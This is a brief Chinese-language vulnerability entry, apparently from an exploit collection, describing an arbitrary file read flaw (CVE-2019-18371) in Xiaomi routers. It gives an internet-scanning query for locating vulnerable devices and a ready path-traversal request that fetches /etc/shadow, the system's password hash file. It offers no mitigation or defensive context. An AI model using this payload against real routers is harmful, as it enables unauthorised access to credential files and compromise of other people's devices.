

# 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面


验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

